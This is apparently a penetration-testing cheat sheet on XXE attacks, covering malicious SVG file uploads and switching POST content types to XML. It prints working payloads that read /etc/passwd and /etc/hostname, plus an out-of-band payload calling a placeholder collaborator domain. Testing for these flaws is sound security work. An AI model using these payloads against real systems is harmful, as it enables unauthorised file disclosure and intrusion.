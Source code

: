 If an app allows file uploads, some common formats use XML or contain XML subcomponents such as DOCX and image formats like SVG. An app may allow users to upload images and process/validate them after uploading. If the app expects PNG or JPEG image, it may still support SVG images.

If so, try submitting a malicious SVG image such as the following:

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

For example, attempt to upload a standard SVG image and observe if it accepts or not via POST request analysis. If it does, observe the request carefully.

```xml
<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200" version="1.1"
baseProfile="full" > <rect x="0" y="0" width="60" height="60" style="stroke: blue;"/>
<rect id="myRect" x="25" y="25" rx="0.6" ry="0.6" width="150" height="150" fill="blue"
stroke="black" stroke-width="8"/>
</svg>
```

Attempt to change the SVG content in the POST request to various XXE payloads such as:

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

Or the following:

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><img xlink:href="file:///etc/passwd"></image></svg>
```

If in-band is not an option, use an OOB payload such as:

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://COLLABORATOR-DOMAIN.COM" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
# XXE via Modified Content Type

Many POST requests use default content type such as `application/x-www-form-urlencoded`. Some sites expect requests in this format, but tolerate other content types. If a normal request contains the following:

```html
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Try changing the content type to XML such as:

```xml
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

If XML is tolerated and it is parsed, there may be XXE by reformatting requests to use XML formats.

